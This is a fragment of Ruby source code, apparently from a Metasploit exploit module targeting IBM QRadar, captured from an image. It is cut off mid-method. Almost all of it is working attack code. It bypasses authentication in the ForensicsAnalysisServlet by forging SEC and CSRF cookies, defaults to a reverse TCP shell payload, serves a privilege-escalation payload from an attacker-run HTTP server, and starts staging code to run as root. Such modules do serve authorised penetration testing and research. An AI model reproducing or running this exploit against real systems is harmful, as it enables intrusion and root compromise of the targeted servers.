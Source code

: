 ```rb
        # we can only run shell scripts, so set a reverse netcat payload by default
        # the payload that will be run is in the first few lines of @payload
        'PAYLOAD' => 'generic/shell_reverse_tcp',
      },
      'DisclosureDate'  => 'TBD',
      'DefaultTarget'   => 0))
    register_options(
      [
        Opt::RPORT(443),
        OptString.new('SRVHOST', [true, 'HTTP server address', '0.0.0.0']),
        OptString.new('SRVPORT', [true, 'HTTP server port', '4448']),
      ], self.class)
  end
  def check
    begin
      res = send_request_cgi({
        'uri'       => '/ForensicsAnalysisServlet/',
        'method'    => 'GET',
      })
      if res && res.code == 403
        return Exploit::CheckCode::Detected
      end
    rescue ::Rex::ConnectionError
      return Exploit::CheckCode::Unknown
    end
    Exploit::CheckCode::Safe
  end
  # Handle incoming requests from QRadar
  def on_request_uri(cli, request)
    print_good("#{peer} - Sending privilege escalation payload to QRadar...")
    print_good("#{peer} - Sit back and relax, Shelly will come visit soon!")
    send_response(cli, @payload)
  end
  # step 1 of the exploit, bypass authentication in the ForensicAnalysisServlet
  def set_cookies
    @sec_cookie = SecureRandom.uuid
    @csrf_cookie = SecureRandom.uuid
    post_data = "#{rand_text_alpha(rand(12)+5)},#{rand_text_alpha(rand(12)+5)}," +
      "#{@sec_cookie},#{@csrf_cookie}"
    res = send_request_cgi({
      'uri'       => '/ForensicsAnalysisServlet/',
      'method'    => 'POST',
      'ctype'     => 'application/json',
      'cookie'    => "SEC=#{@sec_cookie}; QRadarCSRF=#{@csrf_cookie};",
      'vars_get'  =>
      {
        'action'  => 'setSecurityTokens',
        'forensicsManagedHostIps' => "#{rand(256)}.#{rand(256)}.#{rand(256)}.#{rand(256)}"
      },
      'data'      => post_data
    })
    if res.code != 200
      fail_with(Failure::Unknown, "#{peer} - Failed to set the SEC and QRadar CSRF cookies")
    end
  end
  def exploit
    print_status("#{peer} - Attempting to exploit #{target.name}")
    # run step 1
    set_cookies
    # let's prepare step 2 (payload) and 3 (payload exec as root)
    @payload_name = rand_text_alpha_lower(3+rand(5))
    root_payload = rand_text_alpha_lower(3+rand(5))
    if (datastore['SRVHOST'] == "0.0.0.0" or datastore['SRVHOST'] == "::")
```